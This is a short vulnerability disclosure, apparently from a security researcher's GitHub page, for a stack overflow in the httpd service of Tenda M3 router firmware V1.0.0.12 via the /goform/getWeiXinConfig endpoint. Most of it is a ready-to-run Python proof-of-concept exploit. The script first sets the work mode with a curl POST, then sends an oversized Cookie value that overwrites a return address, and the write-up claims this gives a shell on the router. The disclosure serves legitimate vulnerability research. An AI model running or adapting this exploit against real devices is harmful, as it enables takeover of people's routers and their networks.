 # Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formGetWeiXinConfig` function, which can be accessed via the url  `/goform/getWeiXinConfig`.

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *
import os
 

if __name__ == '__main__':
    #Fireitup
    #payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload='bbbbbbbb='+cyclic(0x58)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/goform/getWeiXinConfig'
    # 构造http数据包

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=devUid'+payload,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
	cmd='''curl -i -X POST http://192.168.10.1/goform/setWorkmode -d acAddr='bbbb' -d workmode='master' -d  devname='aaa'  --cookie "user=admin"'''
	os.system(cmd)
        a=requests.get(url,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)

```





![poc](./poc.jpg)



